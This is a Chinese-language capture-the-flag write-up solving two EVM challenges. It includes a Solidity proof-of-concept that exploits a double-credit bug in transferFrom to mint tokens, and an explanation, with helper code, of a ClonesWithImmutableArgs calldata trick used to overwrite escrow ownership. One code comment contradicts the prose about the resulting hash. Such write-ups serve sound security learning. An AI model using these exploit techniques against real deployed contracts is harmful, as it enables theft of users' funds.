 ### GreyHats Dollar

[題目](https://github.com/MiloTruck/evm-ctf-challenges/blob/main/src/greyhats-dollar): 
擔心通貨膨脹嗎？介紹 GreyHats Dollar (GHD)，全球首個內建通縮機制的貨幣！由 GREY 代幣支持，GHD 將以每年 3% 的速度自動通縮。

過關條件:
-  挑戰者需拿到 50000 以上 GHD

知識點:
- transferFrom 邏輯漏洞, double credit. 

解題:
- 挑戰者可以 cliam 1000 grey 代幣. 可以在 GHD合約 mint GHD 代幣, 關鍵漏洞在GHD合約的transferFrom函數轉賬時,只檢查了發送者餘額減少和接收者餘額增加,沒有檢查實際轉賬金額.

```
    function transferFrom(
        address from,
        address to,
        uint256 amount
    ) public update returns (bool) {
        if (from != msg.sender) allowance[from][msg.sender] -= amount;

        uint256 _shares = _GHDToShares(amount, conversionRate, false);
        uint256 fromShares = shares[from] - _shares; //vulnerable
        uint256 toShares = shares[to] + _shares;  //vulnerable
```
[POC:](./gratcat/test/greyhats-dollar.sol) 
```
contract Exploit {
    Setup setup;

    constructor(Setup _setup) {
        setup = _setup;
    }
    function solve() external {
        // Step 1: Claim 1000 GREY tokens
        // The function begins by calling setup.claim() to claim 1000 GREY tokens.
        setup.claim();

        // Step 2: Approve GHD contract
        // It then grants approval for the GHD contract to spend the GREY tokens 
        // by calling approve on the GREY token contract, allowing the GHD contract 
        // to spend an unlimited amount (type(uint256).max).
        setup.grey().approve(address(setup.ghd()), type(uint256).max);

        // Step 3: Mint GHD tokens
        // After approval, the function mints GHD tokens by transferring the 1000 GREY tokens 
        // to the GHD contract using setup.ghd().mint(1000e18).
        setup.ghd().mint(1000e18);

        // Step 4: Looped transfers
        // The function performs a loop 50 times, transferring 1000 GHD tokens 
        // to the contract itself (address(this)) on each iteration.
        for (uint256 i = 0; i < 50; i++) {
            setup.ghd().transfer(address(this), 1000e18);
        }

        // Step 5: Transfer accumulated GHD to the caller
        // Once the loop completes, the function transfers all the accumulated GHD tokens 
        // from the contract to the caller (msg.sender) using 
        // setup.ghd().transfer(msg.sender, setup.ghd().balanceOf(address(this))).
        setup.ghd().transfer(msg.sender, setup.ghd().balanceOf(address(this)));
    }
}

```

### Escrow

[題目](https://github.com/MiloTruck/evm-ctf-challenges/blob/main/src/escrow): 
介紹基於 NFT 的代管系統——你可以存入資產並通過出售你的所有權 NFT 來交易代管！然而，我不小心放棄了自己代管的所有權。你能幫我找回資金嗎？

過關條件:
- escrow 合約上 grey 代幣餘額為0
- 挑戰者 grey 代幣餘額需 >= 10000

知識點:
-   ClonesWithImmutableArgs
-   Calldata 


解題:
- 當 ClonesWithImmutableArgs 代理被調用時，不可變參數和一個 2-byte 的長度字段會附加在委託調用（delegate call）的 calldata 中.
- tokenY 是 address(0)：address(0) 以 0x00 表示, tokenY 的最後一個 byte 為 0x00, 通過利用 ClonesWithImmutableArgs 的 calldata 優化, 我們可以省略 tokenY 的最後一個 byte, 並將未使用的 length field byte 作為 tokenY 的最後一個 byte, 你可以傳遞 19 bytes 的 0x00, 並且仍然能夠達到與傳遞完整 20 bytes 相同的效果, 計算出來的 paramsHash 會是一樣的, 這樣我們可以部署一樣的 escrowId 合約和覆蓋 owner.
[POC:](./gratcat/test/escrow.sol) 
```
function _getArgs() internal pure returns (address factory, address tokenX, address tokenY) {
    // This function retrieves three arguments: factory, tokenX, and tokenY.
    // factory is located at offset 0, tokenX at offset 20, and tokenY at offset 40.
    // tokenY is expected to be address(0), which allows us to optimize the calldata length.

    factory = _getArgAddress(0);
    tokenX = _getArgAddress(20);
    
    // Since tokenY is address(0) (0x00), we can utilize the first byte of the length field
    // to act as the last byte of tokenY. This reduces the calldata passed by 1 byte,
    // resulting in a different paramsHash.
    tokenY = _getArgAddress(40); // address(0) (0x00)
}

function _getArgAddress(uint256 argOffset)
    internal
    pure
    returns (address arg)
{
    // This function reads an address from calldata at the specified offset.
    uint256 offset = _getImmutableArgsOffset();
    
    // Use inline assembly to load 32 bytes from calldata, then shift right by 96 bits (12 bytes)
    // to get the correct 20-byte address.
    assembly {
        arg := shr(0x60, calldataload(add(offset, argOffset)))
    }
}

function _getImmutableArgsOffset() internal pure returns (uint256 offset) {
    // This function calculates the starting offset for the immutable arguments in calldata.
    // The last 2 bytes of calldata contain the length of the immutable arguments.
    
    // Subtract the last 2 bytes from the total calldata size to get the offset of the arguments.
    assembly {
        offset := sub(
            calldatasize(),
            shr(0xf0, calldataload(sub(calldatasize(), 2))) // Extract the last 2 bytes (length field)
        )
    }
}
```

